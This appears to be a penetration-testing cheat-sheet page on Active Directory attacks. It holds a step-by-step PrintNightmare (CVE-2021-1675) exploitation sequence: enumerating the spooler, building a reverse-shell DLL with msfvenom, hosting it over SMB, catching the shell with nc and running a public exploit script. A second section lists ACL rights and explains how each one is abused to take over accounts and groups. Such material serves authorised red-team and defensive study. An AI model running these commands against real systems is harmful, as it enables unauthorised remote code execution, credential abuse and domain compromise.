 ### PrintNightmare

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.thehacker.recipes/a-d/movement/print-spooler-service/printnightmare
# Check spooler is active (2 options)
nxc smb $IP -M spooler
rpcdump.py @$IP | egrep 'MS-RPRN|MS-PAR'
# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll
# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/
# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT
# Run the exploit
https://github.com/cube0x0/CVE-2021-1675
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
# Cleanup: delete the DLLs from these locations
C:\Windows\System32\spool\drivers\x64\3
C:\Windows\System32\spool\drivers\x64\3\Old\{id}\
```
{% endcode %}

## Permission Delegation

[https](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[**://**](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[bloodhound.readthedocs.io](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[**/**](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[en](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[**/**](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[latest](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[**/**](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[data-analysis](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[**/**](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)[edges.html#](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)

[https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)

[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

* **ForceChangePassword:** We have the ability to set the user's current password without knowing their current password.
* **AddMembers:** We have the ability to add users (including our own account), groups or computers to the target group.
* **GenericAll:** We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
* **GenericWrite:** We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
* **WriteOwner:** We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
* **WriteDACL:** We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
* **AllExtendedRights:** We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.
